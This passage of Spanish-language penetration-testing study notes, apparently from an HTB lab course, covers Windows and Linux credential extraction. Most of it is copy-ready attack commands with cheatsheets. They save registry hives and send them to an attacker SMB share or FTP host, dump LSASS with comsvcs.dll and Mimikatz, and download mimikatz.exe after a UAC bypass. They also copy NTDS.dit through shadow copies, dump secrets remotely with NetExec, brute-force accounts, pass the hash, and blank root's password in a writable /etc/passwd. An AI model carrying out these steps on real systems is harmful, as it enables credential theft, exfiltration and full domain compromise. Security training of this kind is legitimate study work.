Desde un `cmd.exe` **como administrador**, guardamos cada hive en un fichero `.save`:

```cmd
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

> [!NOTE]
> Si **solo** quieres los hashes de usuarios locales, bastan `SAM` + `SYSTEM`. Guardar también `SECURITY` merece la pena porque, en sistemas unidos a dominio, trae credenciales de dominio en caché (DCC2) y otros secretos.

##### Paso 2 · Transferir los `.save` a la máquina de ataque

Levantamos un recurso compartido SMB temporal con Impacket **en el atacante** (Linux):

```bash
impacket-smbserver -smb2support -user arabot -password arabot123 CompData /home/arabot/CPTS/10-password-attacks
```
- `CompData` = nombre del recurso compartido · `/home/arabot/...` = carpeta local que se comparte.
- `-user`/`-password` = credenciales para conectarse al share (evita problemas de auth anónima con Windows moderno).

Y **en la víctima** (Windows) montamos el share y movemos los ficheros:

```cmd
net use \\192.168.181.129\CompData /user:arabot arabot123
move sam.save \\192.168.181.129\CompData
move security.save \\192.168.181.129\CompData
move system.save \\192.168.181.129\CompData
```

Salida esperada al mover cada uno:

```
C:\>move sam.save \\192.168.181.129\CompData
Se han movido         1 archivos.
```

> [!TIP]
> `192.168.181.129` es la IP de **mi** máquina de ataque (ajústala). Con `move`, los ficheros salen de la víctima directamente al share, sin dejar copia local. Al terminar, corta el share con `net use \\192.168.181.129\CompData /delete`.

> [!NOTE]
> **Alternativa: exfiltrar por FTP (útil si SMB está filtrado)**
> En el atacante levantas un FTP con escritura, y desde PowerShell en la víctima **subes** los hives:
> ```bash
> sudo python3 -m pyftpdlib --port 21 --write
> ```
> ```powershell
> (New-Object Net.WebClient).UploadFile('ftp://<atacante>/sam.save', 'C:\sam.save')
> (New-Object Net.WebClient).UploadFile('ftp://<atacante>/system.save', 'C:\system.save')
> (New-Object Net.WebClient).UploadFile('ftp://<atacante>/security.save', 'C:\security.save')
> ```

##### Paso 3 · Extraer los hashes con secretsdump

Ya en el atacante, con los tres `.save`, `secretsdump` los combina y saca los hashes (`LOCAL` = modo offline sobre ficheros, no por red):

```bash
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

La salida empieza con:

```
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

> [!NOTE]
> **Cómo leer la línea de cada hash**
> El formato es `usuario:RID:lmhash:nthash:::`. Lo que te interesa crackear es el **NT hash** (los Windows modernos guardan **hashes NT**; el LM suele estar vacío/deshabilitado). Copia solo los NT hashes a un fichero para pasarlos a Hashcat.

##### Paso 4 · Crackear los NT hashes

Los hashes NT son el modo **`-m 1000`** de Hashcat:

```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

---

#### Secretos extra de `HKLM\SECURITY`

Guardar el hive `SECURITY` desbloquea dos botines adicionales que `secretsdump` también saca:

##### Hashes DCC2 (credenciales de dominio en caché)

`HKLM\SECURITY` guarda **credenciales de dominio en caché** como hashes **DCC2** (*Domain Cached Credentials v2*): copias locales y hasheadas de credenciales de red, para poder iniciar sesión en el equipo aunque el DC no esté disponible. Se crackean con el modo **`-m 2100`**:

```bash
hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```

> [!WARNING]
> **DCC2 es LENTO de crackear**
> Por diseño, los DCC2 son costosos de romper (mucho más que un NT hash), así que la fuerza bruta pura rara vez sirve: apóyate en una **wordlist buena**. Y ojo: **no** se pueden reutilizar con Pass-the-Hash (solo sirven crackeados).

##### Claves DPAPI

[**DPAPI**](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection) es el conjunto de APIs de Windows para **cifrar/descifrar datos por usuario** (blobs). Lo usan muchas funciones del SO y apps de terceros (contraseñas guardadas de navegadores, credenciales del Credential Manager, Wi-Fi…).

Las credenciales cifradas con DPAPI se descifran con:
- [`dpapi.py`](https://github.com/fortra/impacket/blob/master/examples/dpapi.py) de **Impacket** (manual)
- [**mimikatz**](https://github.com/gentilkiwi/mimikatz)
- [**DonPAPI**](https://github.com/login-securite/DonPAPI) (de forma **remota** y masiva)

---

#### Método 2 — Volcado remoto con NetExec

Si ya tienes **credenciales de administrador local** válidas, no hace falta entrar a copiar hives a mano: **NetExec** los vuelca por red (SMB). `--local-auth` indica que las credenciales son **locales** de la máquina, no de dominio.

**Volcar la SAM remotamente:**

```bash
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

**Volcar los secretos de LSA** (de `HKLM\SECURITY`: credenciales de servicios, tareas programadas, apps que usan secretos LSA, DCC2…):

```bash
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

> [!NOTE]
> **Dónde quedan los secretos de LSA**
> NetExec guarda lo volcado en un log con fecha en `~/.nxc/logs/` (p. ej. `~/.nxc/logs/lsa/<HOST>_<IP>_<fecha>.secrets`). Ábrelo con `cat` para ver las credenciales en claro de servicios/tareas.

> [!TIP]
> **Local vs remoto**
> - **`reg.exe` + secretsdump LOCAL** → cuando ya tienes una shell dentro de la máquina.
> - **`netexec --sam/--lsa`** → cuando tienes las credenciales y prefieres tirarlo por red desde el atacante (más rápido y limpio). Recuerda que es **ruidoso** en logs.

---

#### Resumen rápido (cheatsheet)

| Paso / objetivo | Comando |
|-----------------|---------|
| Copiar hives (víctima, admin) | `reg.exe save hklm\sam C:\sam.save` (igual con `system` y `security`) |
| Share SMB (atacante) | `impacket-smbserver -smb2support -user u -password p CompData <carpeta>` |
| Montar + transferir (víctima) | `net use \\<IP>\CompData /user:u p` → `move sam.save \\<IP>\CompData` |
| Extraer hashes (atacante) | `impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL` |
| Crackear NT hash | `hashcat -m 1000 hashes.txt rockyou.txt` |
| Crackear DCC2 | `hashcat -m 2100 '$DCC2$...' rockyou.txt` |
| Volcado remoto SAM | `netexec smb <IP> --local-auth -u u -p p --sam` |
| Volcado remoto LSA | `netexec smb <IP> --local-auth -u u -p p --lsa` |

| Hash | Modo Hashcat |
|------|--------------|
| NT (SAM) | `-m 1000` |
| DCC2 (dominio en caché) | `-m 2100` |

> [!NOTE]
> **Para que no se te olvide**
> **SAM + SYSTEM** (obligatorios) **+ SECURITY** (extra de dominio) → `secretsdump` → **NT hashes** (`-m 1000`) y **DCC2** (`-m 2100`). Con creds de admin local, `netexec --sam/--lsa` hace lo mismo por red.

---

Siguiente paso (credenciales en memoria) → **LSASS**

Relacionado: **Proceso de autenticación de Windows** · crackeo → **Introduction to Hashcat** · **John The Ripper** · **0 - Password Attacks (Índice y cheatsheet)**

---

### Volcado de memoria de LSASS

> [!IMPORTANT]
> **Qué atacamos aquí**
> En **Proceso de autenticación de Windows** vimos que **LSASS** es el "portero" central. Para validar sesiones, **cachea credenciales en memoria** (hashes NT, tickets Kerberos y, en sistemas viejos, contraseñas en claro). Aquí volcamos esa memoria a un fichero `.dmp` y la analizamos offline para robar esas credenciales.

El proceso **LSASS** (Local Security Authority Subsystem Service):
- **Cachea credenciales** localmente en memoria.
- Crea [tokens de acceso](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).
- Aplica las políticas de seguridad.
- Escribe en el [registro de seguridad](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security) de Windows.

> [!WARNING]
> **Requiere administrador/SYSTEM y es muy vigilado**
> Volcar `lsass.exe` necesita privilegios elevados y es una de las acciones **más detectadas** por los AV/EDR modernos. Espera bloqueos y alertas.

---

#### Método 1 · Volcado gráfico (Administrador de Tareas)

Con acceso a la GUI, la forma más simple:

1. Abre el **Administrador de Tareas**.
2. Pestaña **Processes** (Procesos).
3. Clic derecho en **Local Security Authority Process**.
4. **Create dump file** (Crear archivo de volcado).

Se genera un fichero **`lsass.DMP`** (normalmente en `%Temp%`). Ese fichero es el que llevarás a tu máquina de ataque.

---

#### Método 2 · Volcado por línea de comandos

##### Encontrar el PID de LSASS

Necesitas el **PID** (Process ID) de `lsass.exe` para el volcado por comando:

```cmd
tasklist /svc
```
```powershell
Get-Process lsass
```
En PowerShell, el PID está en el campo `Id`.

##### Crear el volcado con comsvcs.dll

Con una sesión de **PowerShell elevada**, la DLL nativa `comsvcs.dll` puede hacer el minidump (aquí el PID de ejemplo es `672`):

```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
- `MiniDump 672` → vuelca el proceso con **PID 672** (sustitúyelo por el tuyo).
- `C:\lsass.dmp` → fichero de salida · `full` → volcado completo.

> [!WARNING]
> **Muy detectado por AV/EDR**
> Los AV modernos reconocen este `comsvcs.dll MiniDump` como actividad maliciosa y **suelen bloquearlo**. Si consigues generar el `.dmp`, transfiérelo a tu máquina de ataque para extraer las credenciales offline.

> [!NOTE]
> **Transferir el `.dmp` por FTP**
> ```bash
> sudo python3 -m pyftpdlib --port 21 --write
> ```
> ```powershell
> (New-Object Net.WebClient).UploadFile('ftp://<atacante>/lsass.dmp', 'C:\lsass.dmp')
> ```

> [!TIP]
> **Alternativa: Mimikatz en vivo (sin fichero .dmp)**
> Si ya tienes sesión interactiva **como admin** en la máquina, Mimikatz vuelca las credenciales de la memoria de LSASS directamente:
> ```
> privilege::debug
> sekurlsa::logonpasswords
> ```
> Da lo mismo que pypykatz sobre el `.dmp` (NT, WDIGEST en claro, Kerberos…), pero sin generar ni mover el volcado.

---

#### Extraer credenciales del `.dmp` con Pypykatz

Ya en el atacante (Linux), [**pypykatz**](https://github.com/skelsec/pypykatz) analiza el volcado y saca los secretos:

```bash
pypykatz lsa minidump lsass.dmp
```
- `lsa` → porque LSASS es un subsistema de la **Local Security Authority**.
- `minidump` → tipo de fuente de datos.
- `lsass.dmp` → ruta al volcado en tu máquina.

##### Qué te muestra (paquetes de credenciales)

Pypykatz agrupa lo encontrado por paquete de autenticación:

| Paquete | Qué saca |
|---------|----------|
| [**MSV**](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) | Paquete que valida logins contra la SAM. Extrae **SID, Username, Domain** y los hashes **NT** y **SHA1**. |
| **WDIGEST** | Protocolo **antiguo** (por defecto en Win XP–8 / Server 2003–2012). Cachea las credenciales **en texto plano** → jackpot si el sistema es viejo. |
| [**Kerberos**](https://web.mit.edu/kerberos/#what_is) | Protocolo de red de **Active Directory**. Saca **tickets** de las cuentas de dominio autenticadas. |
| **DPAPI** | Mimikatz/Pypykatz extraen la **masterkey de DPAPI** de los usuarios con sesión activa → permite descifrar sus secretos (ver **Atacando el Administrador de Credenciales de Windows**). |

> [!TIP]
> **El botín de LSASS**
> - **NT hash** → crackéalo (`hashcat -m 1000`) o reutilízalo con **Pass-the-Hash**.
> - **WDIGEST en claro** → contraseña directa, sin crackear.
> - **Tickets Kerberos / masterkey DPAPI** → movimiento lateral en el dominio.

---

#### Resumen rápido (cheatsheet)

| Paso | Comando |
|------|---------|
| PID de LSASS (cmd) | `tasklist /svc` |
| PID de LSASS (PS) | `Get-Process lsass` |
| Volcar (PS elevada) | `rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full` |
| Extraer creds (atacante) | `pypykatz lsa minidump lsass.dmp` |
| Crackear NT hash | `hashcat -m 1000 <hash> rockyou.txt` |

> [!NOTE]
> **GUI vs comando**
> - **Administrador de Tareas → Create dump file** → si tienes escritorio.
> - **comsvcs.dll MiniDump** → si tienes shell/PowerShell (pero muy vigilado por AV).

---

Relacionado: **Proceso de autenticación de Windows** · **Ataque a SAM, SYSTEM y SECURITY** · **Atacando el Administrador de Credenciales de Windows** · **0 - Password Attacks (Índice y cheatsheet)**

---

### Atacando el Administrador de Credenciales de Windows

> [!IMPORTANT]
> **Qué atacamos aquí**
> El **Credential Manager** (Administrador de Credenciales) es donde Windows guarda las credenciales que el usuario ha ido almacenando (unidades de red, RDP, webs, apps). Están cifradas con **DPAPI** por perfil. Aquí las **enumeramos**, las **reutilizamos** sin conocerlas y las **desciframos** con Mimikatz.

Las credenciales se guardan en carpetas cifradas especiales bajo los perfiles de usuario y de sistema ([MITRE ATT&CK T1555.004](https://attack.mitre.org/techniques/T1555/004/)):

```
%UserProfile%\AppData\Local\Microsoft\Vault\
%UserProfile%\AppData\Local\Microsoft\Credentials\
%UserProfile%\AppData\Roaming\Microsoft\Vault\
%ProgramData%\Microsoft\Vault\
%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\
```

---

#### Paso 1 · Enumerar credenciales con `cmdkey`

[`cmdkey`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) lista las credenciales guardadas en el **perfil del usuario actual**:

```cmd
cmdkey /list
```

Cómo leer cada entrada:

| Campo | Qué significa |
|-------|---------------|
| **Target** | Recurso/cuenta al que pertenece la credencial (un equipo, un dominio, un identificador especial). |
| **Type** | Tipo de credencial: `Generic` (general) o `Domain Password` (login de usuario de dominio). |
| **User** | La cuenta asociada a la credencial. |
| **Persistence** | Si sobrevive a reinicios. Las marcadas como `Local machine persistence` persisten. |

---

#### Paso 2 · Reutilizar la credencial con `runas` (sin conocer la contraseña)

Si ves una credencial de dominio **interactiva** como `Domain:interactive=SRV01\mcharles` (usuario `SRV01\mcharles`), significa que está guardada para sesiones interactivas. Puedes **suplantar a ese usuario** usando la credencial guardada, sin saber su contraseña:

```cmd
runas /savecred /user:SRV01\mcharles cmd
```
- `/savecred` → usa la credencial **ya guardada** en el Credential Manager (por eso no te la pide).
- Abre un `cmd` **como ese usuario** → ejecutas comandos con sus privilegios.

> [!TIP]
> **Por qué es tan útil**
> `runas /savecred` te da el contexto de otro usuario (a veces más privilegiado) **sin crackear nada**. Es de las formas más limpias de movimiento lateral/escalada si el usuario dejó credenciales guardadas.

---

> [!NOTE]
> **GUI del Credential Manager**
> Con escritorio, también puedes abrir el gestor gráfico para ver/respaldar credenciales:
> ```cmd
> rundll32 keymgr.dll,KRShowKeyMgr
> ```

---

#### Paso 3 · Descifrar las credenciales con Mimikatz

> [!WARNING]
> **Mimikatz necesita admin**
> `sekurlsa::credman` lee memoria de LSASS → requiere **privilegios de administrador**. Si `runas /savecred` te dio un `cmd` de un usuario que **no** es admin, primero escala. En el lab se hace un **bypass de UAC con `msconfig`** (Tools → Command Prompt → Launch) para abrir un `cmd` elevado, y desde ahí se transfiere y ejecuta Mimikatz (p. ej. `curl --output mimikatz.exe ftp://<atacante>/mimikatz.exe`).

Para ver el **valor real** (no solo enumerarlas), Mimikatz las descifra desde la memoria/DPAPI:

```
privilege::debug
sekurlsa::credman
```
- `privilege::debug` → activa el privilegio de depuración (necesario para leer memoria de otros procesos).
- `sekurlsa::credman` → vuelca las credenciales del **Credential Manager** de las sesiones activas.

> [!NOTE]
> **Enlaza con LSASS y DPAPI**
> `sekurlsa::credman` tira de la memoria de **LSASS** y de la **masterkey DPAPI** del usuario (ver **LSASS**). Por eso el Credential Manager y LSASS se atacan juntos.

---

#### Resumen rápido (cheatsheet)

| Objetivo | Comando |
|----------|---------|
| Enumerar credenciales guardadas | `cmdkey /list` |
| Reutilizar sin conocer la contraseña | `runas /savecred /user:<DOMINIO>\<user> cmd` |
| Descifrar valores (Mimikatz) | `privilege::debug` → `sekurlsa::credman` |

> [!TIP]
> **Flujo mental**
> `cmdkey /list` (¿qué hay?) → si es interactiva, `runas /savecred` (úsala ya) → si necesitas el valor en claro, `sekurlsa::credman` en Mimikatz.

---

Relacionado: **LSASS** · **Proceso de autenticación de Windows** · **Búsqueda de credenciales en Windows** · **0 - Password Attacks (Índice y cheatsheet)**

---

### Atacando Active Directory y NTDS.dit

> [!IMPORTANT]
> **El premio gordo**
> En un dominio, los hashes ya no están en la SAM local, sino en **`NTDS.dit`** dentro del **Controlador de Dominio (DC)**. Este fichero guarda los hashes de **todos los usuarios del dominio**. Aquí: (1) conseguimos credenciales válidas por **diccionario/enumeración**, y (2) volcamos `NTDS.dit` para hacernos con **todo el dominio**.

> [!NOTE]
> **Recuerda**
> Una vez que un Windows se **une a un dominio**, deja de usar la **SAM** local para validar logins: ahora valida contra **Active Directory** (el DC).

---

#### Parte 1 · Conseguir credenciales de dominio

##### Identificar el DC (nmap)

Un **Controlador de Dominio** se reconoce por sus servicios de AD: **Kerberos (88)**, **LDAP (389)** y **Global Catalog (3268)**:

```bash
nmap <IP> -sV -oN initial-enum
```

##### Generar usuarios desde nombres (OSINT)

Si solo tienes nombres reales (LinkedIn, web…), genera candidatos con **username-anarchy** (ver **Creación de listas de palabras y reglas personalizadas**):

```bash
echo "john marston" > names.txt
./username-anarchy -i names.txt > users.list
```

##### Enumerar usuarios válidos con Kerbrute

**Kerbrute** sirve para fuerza bruta, password spraying y **enumeración de usuarios** (mira quién existe en el dominio, sin bloquear cuentas):

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt
```
- `--dc` → IP del Controlador de Dominio · `--domain` → dominio · `names.txt` → lista de usuarios candidatos.

##### Fuerza bruta con NetExec

Con un usuario válido, prueba contraseñas comunes por SMB:

```bash
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```
Intenta login como `bwilliamson` (`-u`) probando la wordlist `fasttrack.txt` (`-p`), contraseñas de uso común.

---

#### Parte 2 · Capturar NTDS.dit

**`NTDS.dit`** (*NT Directory Services · Directory Information Tree*) es la base de datos principal de AD: guarda todos los **usuarios del dominio, hashes de contraseña** y el esquema. Se almacena en el DC en:

```
%systemroot%\ntds\NTDS.dit
```

##### Paso 1 · Conectarte al DC (Evil-WinRM)

```bash
evil-winrm -i 10.129.201.57 -u bwilliamson -p 'P@55w0rd!'
```

##### Paso 2 · Comprobar que tienes privilegios suficientes

Para copiar `NTDS.dit` necesitas ser **administrador local** (`Administrators`) o **admin de dominio** (`Domain Admins`) o equivalente:

```cmd
net localgroup
net user bwilliamson
```
- `net localgroup` → grupos locales (¿estás en `Administrators`?).
- `net user bwilliamson` → privilegios de la cuenta, incluidos los de dominio.

##### Paso 3 · Copiar NTDS.dit con Volume Shadow Copy (VSS)

`NTDS.dit` está **en uso** por el DC (no se puede copiar directo). La solución: crear una **instantánea de volumen (VSS)** de `C:` y copiar el fichero desde ahí:

```cmd
vssadmin CREATE SHADOW /For=C:
```
Luego copias/mueves el `NTDS.dit` de la instantánea a tu recurso compartido (aquí `10.10.15.30\CompData`):

```cmd
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\NTDS\NTDS.dit \\10.10.15.30\CompData
```
```cmd
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

> [!NOTE]
> `vssadmin CREATE SHADOW` te devuelve la ruta de la instantánea (`...HarddiskVolumeShadowCopyX...`); usa esa ruta en el `copy`. También necesitarás el hive **SYSTEM** para descifrar (`reg save hklm\system ...`, ver **Ataque a SAM, SYSTEM y SECURITY**).

##### Paso 4 · Extraer los hashes (en el atacante)

```bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```
Combina `NTDS.dit` + hive `SYSTEM` y saca los hashes NT de **todo el dominio** (`-m 1000` para crackear).

---

#### Método rápido · Volcar NTDS.dit remotamente con NetExec

Si ya tienes credenciales válidas con privilegios, NetExec lo hace **todo por red** (crea la instantánea, extrae y limpia), sin entrar a mano:

```bash
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil
```

> [!TIP]
> **Manual vs remoto**
> - **VSS + secretsdump** → cuando tienes una shell dentro del DC.
> - **`netexec -M ntdsutil`** → con creds de admin, mucho más rápido y limpio (pero ruidoso en logs).

---

#### Pass the Hash (PtH)

Si tienes el **hash NT** de una cuenta (p. ej. del volcado de NTDS.dit), no hace falta crackearlo: puedes **autenticarte con el hash directamente** — es *Pass the Hash*:

```bash
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```
- `-H` → pasas el **hash NT** en vez de la contraseña (`-p`).

> [!WARNING]
> **Por qué PtH es tan potente**
> NTLM autentica con el **hash**, no con la contraseña en claro. Así que un hash robado del DC = acceso como ese usuario **sin crackear nada**. Con el hash del `Administrator` del dominio, controlas el dominio.

---

#### Resumen rápido (cheatsheet)

| Fase | Comando |
|------|---------|
| Enumerar usuarios (Kerbrute) | `./kerbrute_linux_amd64 userenum --dc <IP> --domain <dominio> names.txt` |
| Fuerza bruta (NetExec) | `netexec smb <IP> -u <user> -p fasttrack.txt` |
| Conectar al DC | `evil-winrm -i <IP> -u <user> -p '<pass>'` |
| ¿Soy admin? | `net localgroup` · `net user <user>` |
| Instantánea VSS | `vssadmin CREATE SHADOW /For=C:` |
| Copiar NTDS.dit | `cmd.exe /c copy \\?\...ShadowCopyX\Windows\NTDS\NTDS.dit \\<IP>\CompData` |
| Extraer hashes | `impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL` |
| **Volcado remoto rápido** | `netexec smb <IP> -u <user> -p <pass> -M ntdsutil` |
| **Pass the Hash** | `evil-winrm -i <IP> -u Administrator -H <NT-hash>` |

> [!TIP]
> **Lo que hay que quedarse**
> **Enumerar usuarios (Kerbrute) → login (NetExec) → volcar NTDS.dit (VSS/secretsdump o `-M ntdsutil`) → hashes de TODO el dominio → crackear o Pass-the-Hash.** Como `NTDS.dit` se replica entre DCs, basta con comprometer uno.

---

Más sobre PtH → **Pass the Hash (PtH)**

Relacionado: **Proceso de autenticación de Windows** · **Ataque a SAM, SYSTEM y SECURITY** · **LSASS** · **Servicios en red** · **0 - Password Attacks (Índice y cheatsheet)**

---

### Búsqueda de credenciales en Windows

> [!IMPORTANT]
> **Qué hacemos aquí**
> No todo son hashes en LSASS o la SAM: muchísimas credenciales están **a la vista** en ficheros de config, scripts, notas o guardadas por apps/navegadores. Esta es la fase de **rebuscar** (loot) una vez dentro. Suele dar credenciales reutilizables gratis.

---

#### Herramientas de búsqueda

##### Búsqueda de Windows (GUI)

Si tienes escritorio, usa la **Búsqueda de Windows** para buscar ficheros por palabras clave típicas (`password`, `cred`, `.config`, nombres de usuario…). Rápido y sin herramientas.

##### LaZagne

[**LaZagne**](https://github.com/AlessandroZ/LaZagne) recupera credenciales que **navegadores y apps** guardan de forma insegura (Chrome/Firefox, clientes de correo, Wi-Fi, RDP, etc.). Sube `LaZagne.exe` al objetivo, abre `cmd`/PowerShell, ve al directorio donde lo subiste y ejecútalo:

```cmd
LaZagne.exe all
```

> [!NOTE]
> **Comando completado (añadido)**
> En los apuntes originales el comando de LaZagne quedó cortado. `LaZagne.exe all` ejecuta **todos los módulos** (es el uso estándar); también puedes acotar por categoría, p. ej. `LaZagne.exe browsers`.

##### findstr (buscar cadenas en ficheros)

`findstr` rastrea texto dentro de ficheros. Búsqueda recursiva de la palabra `password` en formatos habituales de config/scripts:

```cmd
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```
- `/S` → recursivo (subdirectorios) · `/I` → ignora mayúsculas/minúsculas.
- `/M` → muestra solo el **nombre del fichero** que contiene la coincidencia.
- `/C:"password"` → busca la cadena literal `password`.

> [!TIP]
> **Amplía la búsqueda**
> Repite con otras palabras clave (`pass`, `pwd`, `secret`, `key`, `connectionString`, `credential`) y con nombres de usuario que ya conozcas. Los `.config`, `.xml`, `.ps1` y ficheros de despliegue son los que más credenciales sueltan.

> [!TIP]
> **Si en el home no sale nada, mira si eres admin y amplía a `C:\`**
> Comprueba tus privilegios; si estás en **Administradores locales**, puedes leer casi todo el disco:
> ```cmd
> net user <usuario>
> cd C:\
> findstr /S /I /M /C:"password" *.txt *.ini *.config *.xml *.ps1 *.yml
> ```
> En el lab, `password` daba demasiado ruido → buscar un término más concreto (p. ej. `newuser`) destapó un script de alta de usuarios con la **contraseña por defecto del dominio**. Vigila también **scripts de automatización** (PowerShell/Ansible) con credenciales **hardcodeadas**.

---

#### Resumen rápido (cheatsheet)

| Herramienta | Comando / uso | Para qué |
|-------------|---------------|----------|
| Búsqueda de Windows | GUI, por palabras clave | Rápido si hay escritorio |
| **LaZagne** | `LaZagne.exe all` | Creds de navegadores/apps guardadas |
| **findstr** | `findstr /SIM /C:"password" *.txt *.ini *.config *.xml *.ps1 *.yml` | Contraseñas en ficheros de config/scripts |

---

Relacionado: **Atacando el Administrador de Credenciales de Windows** · **LSASS** · **0 - Password Attacks (Índice y cheatsheet)**

---

## Extracting Passwords from Linux Systems

### Proceso de autenticación de Linux

> [!IMPORTANT]
> **El equivalente Linux de SAM/NTDS**
> Igual que Windows guarda hashes en la SAM, Linux los guarda en **`/etc/shadow`**. Aquí vemos **quién autentica** (PAM), **dónde están los hashes** (`passwd`/`shadow`), **cómo interpretarlos** (el formato `$id$salt$hash`) y **cómo crackearlos** (unshadow + John/Hashcat).

Las distros Linux usan varios mecanismos de autenticación; uno de los más comunes es **PAM** ([Pluggable Authentication Modules](https://web.archive.org/web/20220622215926/http://www.linux-pam.org/Linux-PAM-html/Linux-PAM_SAG.html)).

- Los módulos que lo implementan (`pam_unix.so`, `pam_unix2.so`) suelen estar en `/usr/lib/x86_64-linux-gnu/security/`.
- Cuando un usuario cambia su contraseña con `passwd`, **se invoca a PAM**.
- Los ficheros que PAM lee y escribe son **`/etc/passwd`** y **`/etc/shadow`**.

---

#### Archivo `/etc/passwd`

Contiene información de **cada usuario** del sistema y es **legible por todos** (todos los usuarios y servicios). Una línea de ejemplo:

```
htb-student:x:1000:1000:,,,:/home/htb-student:/bin/bash
```

Se divide en campos separados por `:`

| Campo | Valor | Qué es |
|-------|-------|--------|
| Nombre de usuario | `htb-student` | Login del usuario |
| Contraseña | `x` | La `x` = el hash real está en `/etc/shadow` |
| UID | `1000` | ID de usuario (`0` = root) |
| GID | `1000` | ID de grupo principal |
| [GECOS](https://en.wikipedia.org/wiki/Gecos_field) | `,,,` | Info extra (nombre real, teléfono…) |
| Home | `/home/htb-student` | Directorio de inicio |
| Shell | `/bin/bash` | Shell por defecto |

> [!NOTE]
> **Esa `x` es la clave**
> En los sistemas modernos, la `x` en el campo de contraseña significa "el hash **no** está aquí, está en `/etc/shadow`" (que solo lee root). Antiguamente el hash iba en el propio `passwd`, por eso era legible por todos = problema.

> [!WARNING]
> **Si `/etc/passwd` es escribible → root instantáneo**
> A veces `/etc/passwd` queda **escribible por error**. Como el sistema acepta un hash puesto directamente en el campo de contraseña (o **vacío**), podrías **borrar el campo de contraseña de `root`** (login sin contraseña) o meter un hash tuyo. Es una vía clásica de escalada — compruébalo siempre.

---

#### Archivo `/etc/shadow`

Guarda **toda la info de contraseñas** de los usuarios y **solo lo lee root**. Tiene **9 campos** separados por `:`

| # | Campo | Valor de ejemplo |
|---|-------|------------------|
| 1 | Nombre de usuario | `htb-student` |
| 2 | **Contraseña (hash)** | `$y$j9T$3QSBB6CbHEu...SNIP...f8Ms` |
| 3 | Último cambio | `18955` (días desde 1970) |
| 4 | Edad mínima | `0` |
| 5 | Edad máxima | `99999` |
| 6 | Periodo de aviso | `7` |
| 7 | Periodo de inactividad | `-` |
| 8 | Fecha de expiración | `-` |
| 9 | Reservado | `-` |

##### Cómo leer el hash: `$<id>$<salt>$<hashed>`

El campo 2 se divide en tres partes; el **`id`** te dice **qué algoritmo** se usó:

| ID | Algoritmo |
|----|-----------|
| `1` | [MD5](https://en.wikipedia.org/wiki/MD5) |
| `2a` | [Blowfish](https://en.wikipedia.org/wiki/Blowfish_\(cipher\)) |
| `5` | [SHA-256](https://en.wikipedia.org/wiki/SHA-2) |
| `6` | [SHA-512](https://en.wikipedia.org/wiki/SHA-2) |
| `sha1` | SHA1crypt |
| `y` | [Yescrypt](https://github.com/openwall/yescrypt) ← **la más usada hoy** |
| `gy` | Gost-yescrypt |
| `7` | Scrypt |

> [!TIP]
> **Identifica antes de crackear**
> Mira el `$id$` para saber qué tienes. El ejemplo `$y$...` es **yescrypt** (el más común en distros modernas). El `$id$` determina el **modo de Hashcat/formato de John** que debes usar.

---

#### Crackear credenciales de Linux

##### Paso 1 · Combinar passwd + shadow con `unshadow`

Los hashes están en `shadow` pero los datos de usuario en `passwd`. **`unshadow`** (viene con John the Ripper) los **fusiona** en un único fichero listo para crackear:

```bash
sudo cp /etc/passwd /tmp/passwd.bak
sudo cp /etc/shadow /tmp/shadow.bak
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

##### Paso 2 · Crackear con Hashcat

```bash
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```
- `-m 1800` → **sha512crypt** (hashes `$6$`) · `-a 0` → diccionario · `-o` → fichero de salida con las crackeadas.

> [!WARNING]
> **Ajusta el modo al `$id$` del hash**
> `-m 1800` es para `$6$` (SHA-512). Si el hash es otro, cambia el modo: `$1$` MD5crypt → `-m 500`, `$5$` SHA-256crypt → `-m 7400`, **`$y$` yescrypt → John lo soporta mejor** (`john --format=crypt` o versiones recientes) ya que Hashcat aún no tiene modo estable para yescrypt. **Añadido** para evitar el fallo típico de "modo equivocado".

---

#### Resumen rápido (cheatsheet)

| Objetivo | Comando / dato |
|----------|----------------|
| Usuarios del sistema | `cat /etc/passwd` (legible por todos) |
| Hashes (solo root) | `cat /etc/shadow` |
| Formato del hash | `$<id>$<salt>$<hash>` — el `id` = algoritmo |
| Combinar para crackear | `unshadow passwd shadow > unshadowed.hashes` |
| Crackear ($6$ SHA-512) | `hashcat -m 1800 -a 0 unshadowed.hashes rockyou.txt -o cracked` |
| Escalada rápida | Si `/etc/passwd` es escribible → borra el campo de contraseña de `root` |

| `$id$` | Algoritmo | Modo Hashcat |
|--------|-----------|--------------|
| `$1$` | MD5crypt | `-m 500` |
| `$5$` | SHA-256crypt | `-m 7400` |
| `$6$` | SHA-512crypt | `-m 1800` |
